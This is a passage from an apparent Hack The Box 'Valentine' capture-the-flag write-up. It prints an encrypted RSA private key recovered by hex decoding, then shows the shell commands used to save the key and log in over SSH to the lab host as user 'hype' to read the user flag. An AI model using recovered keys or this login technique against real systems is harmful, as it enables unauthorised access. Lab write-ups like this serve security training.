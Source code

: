 After converting these values to ASCII system (hex -> ascii), we have another private key. 

{% highlight text %}
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
{% endhighlight %}

Let's save it once again and try to connect to `ssh`. 

{% highlight bash %}
root@kali:~/hackthebox/valentine# touch private_key
root@kali:~/hackthebox/valentine# vi private_key 
root@kali:~/hackthebox/valentine# chmod 400 private_key 
root@kali:~/hackthebox/valentine# ssh -i private_key hype@10.10.10.79
Enter passphrase for key 'private_key': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Mon Jul  9 10:46:16 2018 from 10.10.15.212
hype@Valentine:~$ 

hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ cat user.txt
<flag>
{% endhighlight%}
